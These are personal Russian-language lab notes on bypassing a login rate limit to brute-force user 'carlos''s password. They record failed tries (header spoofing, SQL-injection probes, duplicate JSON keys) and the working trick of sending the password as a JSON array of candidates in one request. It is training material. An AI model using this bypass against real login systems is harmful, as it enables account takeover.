




задание лабы

==нужно было достать пароль - логин известен
был блок на числу запросов - который не получалось обойти==
==но подставил данные как массив паролей и одним запросом все их отослал==

------

как сайт может блокировать попытки грубого подбора паролей

- Автоматически через определенный период времени
- Вручную администратором
- Вручную пользователем после неуспешного завершения CAPTCHA
- ограничение попыток с после блокировкой на время
- ограничение скрости запросов к сайту (число запросов за период времени)
- блок учетной записи
- блок ip при тех или иных действиях

----

сказано, что если удастся за один запрос проверять сразу несколько учетных записей , например проверяемая + известная нам то есть шанс обойти блок

лаба экперт!
нужно получить пароль пользователя carlos

-----

с одним и темже паролем на 4й раз - блокировка на 1мин для данного IP на все запросы

X-Forwarded-For: 3.1.1.1    - не работает

поместил запросы в URL изменив с POST на GET
GET /login?username=carlos&password=123123 HTTP/2    но различий нет 
пробовал тут поместить длинный пароль и все равно нет изменений
пробовал простую sqli туда - но нет изменений

менял user-agent - не влияет

оригинал:
{"username":"121","password":"wwww"}

изменил:
{"username":"121","password":"wwww",
"username":"23e","password":"wwe"}

------------
при {"username":"carlos'--;";,"password":"1234"
}

ответ 500 Internal Server Error
p class=is-warning>Unexpected &apos;;&apos; at [line 1, column 25]

----------

при {"username":"carlos''";,"password":"1234"
ответ 500 Internal Server Error
p class=is-warning>Unexpected &apos;;&apos; at [line 1, column 23

"username":"carlos""";,"password":"1234"  ответ 500  Unexpected &apos;&quot;&apos; at [line 1, column 21]

"username":"carlos'--","password":"1234"    нет реакции

в поисках ответа я подумал что может быть клиент отвечает за блокировку отправки запроса и хотел ее отключить но наткнулся на это:

и сразу вспомнил что я меняя масив паролей  менял там json и это все спокойно уходило и приходило / сервер

я делал:
{"username":"121","password":"wwww",
"username":"23e","password":"wwe"}

а нужно было так проверить на типы разные:

// Попробовать разные типы вместо строки:
"password": 123456                    // число вместо строки
"password": null                     // null
"password": true                     // boolean
"password": {"key": "value"}         // объект
"password": ["pass1", "pass2"]       // МАССИВ ← вот это сработает!

и теперь я могу подставить массив всех паролей:

и сработало! получилось выполнить вход!
тперь нужно просто отсеить лишнее!

сужаю круг:

осталось немного варинатов
{"username":"carlos","password":[
    "monitor",
    "monitoring",
    "montana",
    "moon",
    "moscow"
]
}

# УРА! нашел пароль!
moscov

# суть
нужно было достать пароль - логин известен
был блок на числу запросов - который не получалось обойти
заметил что передается json формат логина и пароля (что само по себе говорит что можно передавать большие конструкции на сервак)
попробовал несколько параметров передать - нормально сработало - ответ без ошибок.

можно пробовать разные типы форматы вставить в параметр json 

"password": 123456                    // число вместо строки ошибка
"password": null                     // null - ошибка
"password": true                     // boolean   - ошибка
"password": {"key": "value"}         // объект - ошибка
"password": ["pass1", "pass2"]       // МАССИВ ← сработало без ошибок

потом я подставил все пароли массив и отсекал по половине!

{"username":"carlos","password":[
    "monitoring",
    "montana",
    "moon",
    "moscow"
]}

и нашел пароль  moscow!

==выполнено==

